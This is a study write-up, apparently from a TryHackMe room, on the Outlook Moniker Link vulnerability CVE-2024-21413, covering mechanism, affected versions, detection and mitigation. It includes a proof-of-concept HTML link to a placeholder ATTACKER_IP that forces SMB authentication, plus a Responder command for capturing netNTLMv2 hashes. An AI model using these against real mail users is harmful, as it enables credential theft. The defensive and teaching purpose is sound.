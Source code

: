 # 📧 CVE-2024-21413 - Microsoft Outlook Moniker Link Vulnerability

## 🗓️ Disclosure

- **Date**: February 13, 2024  
- **CVE**: [CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413)  
- **Discovered By**: Haifei Li (Check Point Research)

## 🚨 Summary

A critical vulnerability in Microsoft Outlook allows attackers to exploit **Moniker Links**, leading to **NTLM credential leakage** and potentially **Remote Code Execution (RCE)**. This bypasses Outlook’s Protected View and security prompts.

---

## 🔍 What is a Moniker Link?

Moniker Links are not traditional URLs like `http://`. They use Microsoft’s **Component Object Model (COM)** and can:

- Access local files or remote network shares
- Bind to and execute COM objects
- Trigger high-privilege actions

Outlook fails to properly handle these links, which can result in:

- Automatic NTLM authentication to attacker-controlled SMB servers
- Leakage of Windows **netNTLMv2** hashes
- Potential RCE using COM-based payloads

---

## 📊 Vulnerability Overview

| Field                  | Detail                                                              |
|------------------------|---------------------------------------------------------------------|
| CVE                    | [CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Impact                 | Remote Code Execution, Credential Theft                            |
| Severity               | Critical (CVSS 9.8)                                                 |
| Attack Complexity      | Low                                                                 |
| Discovered By          | Haifei Li, Check Point Research                                     |

---

## 🖥️ Affected Software Versions

| Microsoft Office Version         | Affected From Version              |
|----------------------------------|------------------------------------|
| Microsoft Office LTSC 2021       | 19.0.0                             |
| Microsoft 365 Apps for Enterprise| 16.0.1                             |
| Microsoft Office 2019            | 16.0.1                             |
| Microsoft Office 2016            | < 16.0.5435.1001                   |

---

## ⚙️ Technical Context

### COM & Moniker Links

- COM: Microsoft's Component Object Model used for object interaction.
- Monikers: COM-based “intelligent names” that bind to objects or files.
- `file://` links in HTML emails can invoke these Monikers.

### Bypass Technique

- A Moniker Link like:

  ```html
  <a href="file://ATTACKER_IP/test!exploit">Click me</a>
  ```

  uses a special character (`!`) to bypass Protected View, forcing Outlook to initiate an SMB connection to the attacker’s server—sending NTLM hashes.

---

## 🧪 Proof-of-Concept (PoC)

### Email Exploit Script

A Python PoC sends an HTML email with a crafted Moniker Link:

```python
html_content = '''
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_IP/test!exploit">Click me</a></p>
</html>
'''
```

### Responder SMB Listener

```bash
responder -I ens5
```

### Outcome

- Victim opens Outlook
- Clicks the "Click me" link
- Responder captures the **netNTLMv2** hash from the SMB authentication attempt

---

## 🔎 Detection

### 🧪 YARA Rule (by [Florian Roth](https://github.com/CMNatic/CVE-2024-21413))

```yara
rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 {
    meta:
        description = "Detects CVE-2024-21413 exploitation attempts"
        author = "X__Junior, Florian Roth"
        reference = "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/"
        date = "2024-02-17"
        modified = "2024-02-19"
        score = 75

    strings:
        $a1 = "Subject: "
        $a2 = "Received: "
        $xr1 = /file:\/\/\/\\[^"']{6,600}\.(docx|txt|pdf|...)!/

    condition:
        filesize < 1000KB
        and all of ($a*)
        and 1 of ($xr*)
}
```

### Wireshark

- SMB request and **netNTLMv2 hash** can be captured in packet traces.

---

## 🛡️ Mitigation & Remediation

- ✅ **Update Microsoft Outlook** immediately via Windows Update or Microsoft Update Catalog
- 🚫 **No configuration workaround** exists to disable Moniker handling in Outlook
- 🔐 Consider disabling automatic NTLM authentication where feasible
- 🔥 Blocking outbound SMB (port 445) on firewalls can help mitigate credential theft

---

## 🔐 Security Best Practices

- Do **not click** unknown or suspicious links
- **Preview** links before clicking
- **Forward** suspicious emails to your IT or cybersecurity team
- Monitor systems for signs of unusual SMB or NTLM traffic

---

## 🧾 Key Terms

| Term        | Definition                                       |
|-------------|--------------------------------------------------|
| **COM**     | Component Object Model — Windows object system   |
| **Moniker** | A COM-based reference to link or bind to objects |
| **NTLM**    | Windows authentication protocol                  |
| **RCE**     | Remote Code Execution                            |

---

## 🧠 Trivia & Questions

- 🔧 **Tool used to capture hashes**: `responder`
- 🔑 **Hash type captured**: `netNTLMv2`

> ---

<sub>🔗 References & Resources:</sub>
- <sub>TryHackMe — Moniker Link | Cyber Security 101 (THM) [TryHackMe](https://tryhackme.com/room/monikerlink)</sub>
- <sub>Wanna read more about [Moniker Link](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/) and Microsoft's article on [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers)</sub>
- <sub>Access [CVE Records](https://www.cve.org/CVERecord?id=CVE-2024-21413)</sub>

